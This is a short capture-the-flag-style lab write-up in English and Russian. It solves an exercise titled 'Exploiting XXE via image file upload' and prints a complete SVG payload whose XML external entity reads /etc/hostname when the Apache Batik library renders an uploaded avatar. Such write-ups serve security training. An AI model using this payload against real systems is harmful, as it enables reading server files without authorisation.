 ```
Lab: Exploiting XXE via image file upload
Задача:  This lab lets users attach avatars to comments and uses the Apache Batik library to process avatar image files.
To solve the lab, upload an image that displays the contents of the /etc/hostname file after processing. Then use the "Submit solution" button to submit the value of the server hostname. 
Решение:
```
- Открываем любой пост
[]1.png
- Создаем .svg файл со следующим содержанием:
```
<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg> 
```
- Оставляем любой комментарий и прикрепляем данный файл
![](2.png)
- Обращаем внимание на наш аватар и видим содержимое "/etc/hostname"
![]3.png
- Вбиваем результат
![]4.png 
- Получаем подтверждение успешного завершения
![](5.png)
